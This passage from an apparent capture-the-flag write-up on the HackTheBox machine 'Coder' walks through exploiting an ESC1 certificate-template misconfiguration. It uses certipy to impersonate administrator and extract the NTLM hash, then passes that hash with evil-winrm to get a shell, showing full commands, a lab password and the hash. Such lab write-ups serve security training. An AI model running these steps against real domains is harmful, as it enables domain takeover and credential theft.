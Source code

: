             Write Property Principals       : CODER.HTB\Domain Admins
                                              CODER.HTB\Local System
                                              CODER.HTB\Enterprise Admins
        [!] Vulnerabilities
          ESC1                              : 'CODER.HTB\\Erron Black' can enroll, enrollee supplies subject and template allows client authentication
          ESC4                              : Template is owned by CODER.HTB\Erron Black



ESC1 is what I've configured, and ESC4 is because e.black owns the
template (and therefore could abuse it).

#### Exploit ESC1

I'll use `certipy` to request a certificate and key for administrator:



    oxdf@hacky$ certipy req -u e.black -p ypOSJXPqlDOxxbQSfEERy300 -target coder.htb -ca coder-DC01-CA -template 0xdf-ESC1 -upn administrator@coder.htb
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 15
    [*] Got certificate with UPN 'administrator@coder.htb'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'administrator.pfx'



Using `administrator.pfx`, I'll dump the NTLM hash for administrator:



    oxdf@hacky$ certipy auth -pfx administrator.pfx
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Using principal: administrator@coder.htb
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'administrator.ccache'
    [*] Trying to retrieve NT hash for 'administrator'
    [*] Got hash for 'administrator@coder.htb': aad3b435b51404eeaad3b435b51404ee:807726fcf9f188adc26eeafd7dc16bb7



### WinRM

Regardless of how I get the administrator user's NTLM, I'll use it to
get a shell over WinRM:



    oxdf@hacky$ evil-winrm -i coder.htb -u administrator -H '807726fcf9f188adc26eeafd7dc16bb7'

    Evil-WinRM shell v3.4

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents>



And grab `root.txt`:



    *Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
    aeecabd9************************







